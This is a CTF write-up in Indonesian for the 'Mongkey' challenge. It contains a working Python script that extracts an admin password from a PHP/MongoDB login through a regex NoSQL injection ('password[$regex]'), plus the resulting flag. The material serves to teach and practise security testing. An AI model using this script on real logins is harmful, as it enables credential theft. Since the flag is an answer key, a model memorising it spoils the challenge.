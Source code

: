 # Mongkey
> Can you login as admin?
> http://103.167.136.89:10002/
> guest:guest
> 
> PS: No need to brute force using wordlists
> 
> Author: bleedz#0666 (Discord) / @bl33dz (Tele)
## About the Challenge
Diberikan sebuah website dengan tampilan login, dengan hint "Do you know if it is possible to post an array in PHP?".

<img width="917" alt="image" src="https://github.com/dotnaonweh/ForestyCTF/assets/49785290/2f3c053e-4e2f-4cf8-a222-b4761596354a">


## How to Solve?
Pada challenge ini kita diharuskan untuk login sebagai admin, awalnya sempat bingung karena hanya terdapat username saja dan tidak boleh melakukan brute force. Setelah mencari referensi dengan hint yang diberikan diketahui kalau ini merupakan NoSQL Injection.

Referensi : https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/

Dari website tersebut didapatkan code untuk mengextract flag nya 
```
import requests
import string

flag = "ForestyHC{"
url = "http://103.167.136.89:10002/"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect
            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break
```

Langsung saja coba jalankan code nya, didapat bahwa flag nya yaitu 

<img width="257" alt="image" src="https://github.com/dotnaonweh/ForestyCTF/assets/49785290/e9a9b863-c454-46e3-af8d-72e2d90fc594">

```
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
